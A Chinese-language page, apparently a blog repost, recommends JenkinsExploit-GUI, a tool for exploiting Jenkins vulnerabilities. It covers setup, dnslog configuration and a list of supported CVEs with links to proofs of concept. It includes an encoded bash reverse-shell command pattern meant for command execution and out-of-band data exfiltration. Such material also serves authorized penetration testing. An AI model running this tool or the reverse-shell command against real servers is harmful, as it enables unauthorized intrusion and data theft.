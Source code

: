 ```yaml
---
title: Jenkins-综合漏洞利用工具
date: 2024-2-24 16:14:46
tags:
- 渗透工具推荐
categories:
- 工具推荐
---
```




# jenkins综合漏洞利用工具

## 使用

### jdk版本

在windows或linux使用jdk8的哪一个版本都应该可以，在macOS里需要jdk8u以上的版本，比如jdk8u321

安装jdk8

```
sudo apt install openjdk-8-jdk
```

kali切换jdk版本.

```
update-alternatives --config java
```



### 外置有效负载

从release下载windows_tools,linux_tools或macOS_tools并放在与JenkinsExploit-GUI-*-SNAPSHOT.jar相同的目录,可以或者自行压缩tools_source中的python源码文件



如果是linux或macOS的话需要对外置payload进行chmod +x 赋予权限 [![图片.png](https://github.com/TheBeastofwar/JenkinsExploit-GUI/raw/master/img/img.png)](https://github.com/TheBeastofwar/JenkinsExploit-GUI/blob/master/img/img.png) [![img_1.png](https://github.com/TheBeastofwar/JenkinsExploit-GUI/raw/master/img/img_1.png)](https://github.com/TheBeastofwar/JenkinsExploit-GUI/blob/master/img/img_1.png)

### dnslog配置

进行dnslog设置，目前仅支持dnslog.pw和ceye.io

[![img_3.png](https://github.com/TheBeastofwar/JenkinsExploit-GUI/raw/master/img/img_3.png)](https://github.com/TheBeastofwar/JenkinsExploit-GUI/blob/master/img/img_3.png) [![img_4.png](https://github.com/TheBeastofwar/JenkinsExploit-GUI/raw/master/img/img_4.png)](https://github.com/TheBeastofwar/JenkinsExploit-GUI/blob/master/img/img_4.png)

### 进行检测

[![img_2.png](https://github.com/TheBeastofwar/JenkinsExploit-GUI/raw/master/img/img_2.png)](https://github.com/TheBeastofwar/JenkinsExploit-GUI/blob/master/img/img_2.png)

- 在验证无回显命令执行的时候为了避免转义问题，推荐使用如下方式进行反弹shell和dnslog外带信息

```
bash -c {echo,Y....}|{base64,-d}|{bash,-i}
```



## 支持检测：

- CVE-2015-8103/CVE-2016-0788 Jenkins 反序列化远程代码执行https://github.com/Medicean/VulApps/tree/master/j/jenkins/1
- CVE-2016-0792 Jenkins XStream反序列化远程代码执行https://github.com/jpiechowka/jenkins-cve-2016-0792
- CVE-2017-1000353 Jenkins-CI 远程代码执行漏洞https://github.com/vulhub/CVE-2017-1000353
- CVE-2018-1000600 Jenkins GitHub SSRF+信息泄露
- CVE-2018-1000861 Jenkins 绕过Groovy沙盒未授权命令执行漏洞https://github.com/orangetw/awesome-jenkins-rce-2019
- CVE-2018-1999002 Jenkins 任意文件读取https://mp.weixin.qq.com/s/MOKeN1qEBonS8bOLw6LH_w
- CVE-2019-1003000 Jenkins 远程代码执行https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc
- CVE-2019-1003005/CVE-2019-1003029 远程代码执行（脚本安全插件沙箱绕过）https://github.com/orangetw/awesome-jenkins-rce-2019
- CVE-2024-23897 Jenkins CLI接口任意文件读取漏洞https://github.com/vulhub/vulhub/blob/master/jenkins/CVE-2024-23897

## 未完待续:

- CVE-2016-9299 Jenkins ldap 反序列化远程代码执行，添加 poc

- CVE-2017-1000353 无法检测的错误

- 继续尝试将外部设置的有效负载接入到java代码中

- 新增批量检测功能

  

- # 下载链接

  https://github.com/TheBeastofwar/JenkinsExploit-GUI

​		https://github.com/TheBeastofwar/JenkinsExploit-GUI/releases/tag/v1.3